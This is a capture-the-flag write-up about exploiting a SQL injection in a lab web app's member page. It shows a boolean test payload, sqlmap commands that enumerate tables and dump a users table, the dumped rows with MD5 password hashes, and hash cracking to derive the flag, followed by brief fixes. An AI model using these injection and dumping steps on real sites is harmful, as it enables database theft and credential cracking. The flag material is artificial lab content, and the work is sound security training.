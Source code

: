 # 02_Sql_injection_member

The GET parameter in the image search form is vulnerable.  


## Method

Go to http://192.168.1.59/index.php?page=searchimg.  
In the search field, search `1 AND 1=1`

## Manipulation

Open terminal (Powershell), run  
```bash
python sqlmap.py --url="http://192.168.1.59/index.php?page=member&id=3&Submit=Submit## --tables
```  

This displays all the databases & their tables.  
Thereafter tables can be dumped  
```bash
python sqlmap.py --url="http://192.168.1.59/index.php?page=member&id=3&Submit=Submit# --dump -T users
```  
where `users` refers to the table name  

```bash
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                                    |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9               |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 (oktoberfest) |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d               |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28               |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+------------------------------------------------+
```

Decode flag  
```bash
5ff9d0165b4f92b14994e5c685cdce28 -> FortyTwo -> fortytwo -> 10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5
```  


## Resolve

- Send form as post request
- Add backend Santatization(prepared statements)

### Resources

https://www.hackers-arise.com/post/2017/04/24/database-hacking-part-4-extracting-data-with-sqlmap  
https://www.md5online.org/md5-decrypt.html  
https://passwordsgenerator.net/sha256-hash-generator/  
